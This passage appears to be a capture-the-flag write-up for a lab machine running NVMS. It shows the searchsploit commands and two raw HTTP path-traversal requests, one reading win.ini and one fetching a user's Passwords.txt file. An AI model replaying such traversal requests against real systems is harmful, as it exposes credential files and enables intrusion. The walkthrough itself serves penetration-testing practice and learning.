 We see that there is something hosted on port 80 as well as anonymous login enabled for our FTP service. So we'll log into the FTP and see what's inside the Users folder we're show in our scan. Once logged in we start pathing through the directory. We get two user names Nathan and Nadine. Inside each of their directories are two files, so we download them to see what might be inside.

{{< figure src="__GHOST_URL__/content/images/2020/05/image.png" >}}

We look at the files and see some notes:

{{< figure src="__GHOST_URL__/content/images/2020/05/image-1.png" >}}

We know that the service being hosted on port 80 is NVMS. We can do a quick `searchsploit` for NVMS and see there are a few exploits that pop up.

Command:
`searchsploit nvms`

{{< figure src="__GHOST_URL__/content/images/2020/05/image-2.png" >}}

We can mirror this last exploit to our working directory with the `-m` flag.

Command:
`searchsploit 48311 -m`

The number 48311 corresponds to the name of the exploit.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-3.png" >}}

Once we have the exploit copied, we can [look at the code](https://www.exploit-db.com/exploits/48311). We see it's simply appending our standard traveral and asking for our file to get. Now when I tried to run this in Python, I ran into quite a few errors. I did a minor re-write and was still getting errors. I plan on circling back around to this after this post :). 

Since the traversal is very basic, we can replicate it via `Burpsuite`. We'll use the example that we are given int he PoC from earlier. Here's the request we issue:

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=undefined
Upgrade-Insecure-Requests: 1
```

{{< figure src="__GHOST_URL__/content/images/2020/05/servmon_burp.gif" >}}

Now that we know this traveral is working, we need to get something of use. We read earlier that there is a Passwords.txt file on Nathan's desktop. This is the file we will get. Here's the request used:

```
GET /../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=undefined
Upgrade-Insecure-Requests: 1
```
